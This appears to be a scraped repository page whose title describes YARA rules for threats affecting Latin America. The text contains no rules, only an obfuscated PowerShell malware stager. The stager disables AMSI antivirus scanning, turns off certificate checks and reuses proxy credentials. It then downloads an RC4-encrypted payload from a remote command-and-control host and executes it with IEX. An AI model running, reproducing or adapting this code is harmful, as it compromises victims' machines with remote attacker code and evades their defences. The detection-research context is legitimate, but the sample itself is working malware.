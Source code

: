 Yara rules to detect some threats affecting Latin America.


[Ref].AsSEmbLY.GetTYPE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIeLd('amsiInitFailed','NonPublic,Static').SEtVaLUE($nULl,$TRuE)};[SYstem.NEt.SERvICEPOInTMAnagER]::EXPEct100ContiNue=0;$wC=NEW-ObjECt SYsTeM.NeT.WEbCliEnt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};$wc.HeAdeRS.AdD('User-Agent',$u);$WC.Proxy=[SySTEm.Net.WeBREQUeSt]::DEfAulTWeBProxY;$Wc.PROxy.CReDeNtIalS = [SystEm.NEt.CrEdEntiaLCacHe]::DeFAuLtNetWORkCREDeNtIAls;$K=[SystEm.Text.EncODIng]::ASCII.GeTByTeS('389288edd78e8ea2f54946d3209b16b8');$R={$D,$K=$ARgs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.CouNt])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-BxOR$S[($S[$I]+$S[$H])%256]}};$wc.HeadERs.ADd("Cookie","session=lrtRHKkA6IL5h/d8Ekk6QsxyPvk=");$ser='https://fpetraardella.band:443';$t='/admin/get.php';$DATA=$WC.DoWNLoaDDATA($SER+$T);$iV=$DAta[0..3];$DatA=$dATa[4..$DaTa.lENGTh];-JoIN[CHar[]](& $R $daTa ($IV+$K))|IEX
